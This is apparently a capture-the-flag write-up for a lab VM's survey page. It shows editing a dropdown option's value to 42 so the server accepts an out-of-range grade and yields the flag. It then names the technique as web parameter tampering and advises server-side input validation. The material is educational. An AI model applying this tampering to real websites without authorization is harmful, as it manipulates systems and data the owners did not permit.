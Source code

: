 # Survey

On the Survey page <http://[VM_IP]/?page=survey> you can grade wil, alex, Thor, Ben, ol.

If we look on source code we see that an expected grade is between 1 and 10:
```
<form action="#" method="post">
	<input type="hidden" name="sujet" value="2">
    	<SELECT name="valeur" onChange='javascript:this.form.submit();'>
			<option value="1">1</option>
			<option value="2">2</option>
			<option value="3">3</option>
			<option value="4">4</option>
			<option value="5">5</option>
			<option value="6">6</option>
			<option value="7">7</option>
			<option value="8">8</option>
			<option value="9">9</option>
			<option value="10">10</option>
		</SELECT>
</form>
```

We can try changing survey value to 42, for example, and sending it.

```
<form action="#" method="post">
	<input type="hidden" name="sujet" value="2">
    	<SELECT name="valeur" onChange='javascript:this.form.submit();'>
			<option value="1">1</option>
			<option value="2">2</option>
			<option value="3">3</option>
			<option value="4">4</option>
			<option value="5">5</option>
			<option value="6">6</option>
			<option value="42">7</option>
			<option value="8">8</option>
			<option value="9">9</option>
			<option value="10">10</option>
		</SELECT>
</form>
```

We have our flag

## Explanation

Attack type: [Web Parameter Tampering](https://owasp.org/www-community/attacks/Web_Parameter_Tampering): Hidden field manipulation

> When a web application uses hidden fields to store status information, a malicious user can tamper with the values stored on their browser and change the referred information.

Once the adversary has determined which hidden fields are not being validated by the server, they will manipulate them to change the normal behavior of the web application in a way that benefits the adversary.

## How to fix it

Do not forget to verify user input before processing it.

